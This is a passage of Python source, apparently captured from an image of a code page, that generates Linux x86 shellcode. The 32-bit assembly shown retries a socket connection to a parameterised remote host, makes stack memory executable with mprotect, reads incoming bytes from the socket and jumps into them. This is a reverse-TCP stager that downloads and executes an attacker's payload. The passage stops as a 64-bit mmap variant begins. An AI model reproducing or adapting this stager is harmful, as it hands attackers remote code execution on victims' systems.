```
            push eax
            push ecx
            push edi
            mov ecx, esp
            inc ebx
            int 0x80    
            test eax, eax
            jns mprotect

        handle_failure:
            dec esi
            jz failed
            push 0xa2
            pop eax
            push 0x0
            push 0x5
            mov ebx, esp
            xor ecx, ecx
            int 0x80  
            test eax, eax
            jns create_socket
            jmp failed
        mprotect:
            mov dl, 0x7
            mov ecx, 0x1000
            mov ebx, esp
            shr ebx, 0xc
            shl ebx, 0xc
            mov al, 0x7d
            int 0x80  
            test eax, eax
            js failed

        recv:
            pop ebx
            mov ecx, esp
            cdq
            mov edx, 0x6A
            mov al, 0x3
            int 0x80  
            test eax, eax
            js failed
            jmp ecx

        failed:
            mov eax, 0x1
            mov ebx, 0x1 
            int 0x80         
        '''.format(
            retry_count = retry_count,
            encoded_host=encoded_host,
            encoded_port = encoded_port
        )
    else:
        shellcode = '''
        mmap:
            xor    rdi, rdi
            push   0x9
            pop    rax
            cdq
            mov    dh, 0x10
            mov    rsi, rdx
            xor    r9, r9
```